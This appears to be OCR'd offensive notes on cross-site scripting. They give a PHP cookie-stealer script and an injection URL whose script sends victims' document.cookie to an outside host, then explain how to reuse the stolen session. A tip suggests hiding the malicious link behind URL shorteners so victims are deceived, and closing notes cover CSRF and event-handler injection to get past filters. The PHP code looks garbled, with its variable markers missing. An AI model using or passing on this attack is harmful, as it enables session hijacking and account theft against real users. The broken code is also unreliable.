 ### Content of cookiestealer.php
```
<?php
cookie = HTTP_GET_VARS["cookie"];
file = fopen('log.txt', 'a');
fwrite(file, cookie . "nn");
fclose(file);
?>
```
 Save it as cookiestealer.php and create a 'log.txt' and upload both files
 on your own webspace, in the same directory and set "chmod 777".

 **Inject the following code in your target website:**

    http://www.site.ru/google.php?search=<script>location.href = 'http://192.168.21.130/stealcookie.php?cookie='+document.cookie;</script>

 Then the victim's cookie (target's website user who visited the url above) should
 appear in the log.txt.
 Now you simply need to insert the cookie (with e.g. live http headers firefox addon)
 and use it.

#############################################################
#                                                           #
# PROTIP FOR EVERY XSS INJECTION:                           #
# use url shortener services such as tinyurl.com or bit.ly  #
# to 'hide' your injection, so the victim won't know what's #
# behind that url.                                          #
#                                                           #
#############################################################

CSRF = check which links on page do what, and see if they are interesting enough to perform  CSRF
Quite often devs will obfuscate their code to prevent it being ripped off etc XMLhttpRequest video

In a well secured application < and > should be translated to &gt; and lt; - this is because html tags use these characters, so when they aren't filtered it opens an injection vector

Consider the below filters source after attempting an XSS attack - we can see that the single quote is not filtered
When heavy filtering is in place, one way we can inject code without the use of html tags is by using events. There are a number of events that fire in different places in a document/page when it is loaded
INPUT fields have three main events to attack: onChange, onFocus and onBlur.
```
onChange = fires when the value of an INPUT block changes
onFocus / onBlur = fire when the field is selected / when someone leaves the field
```
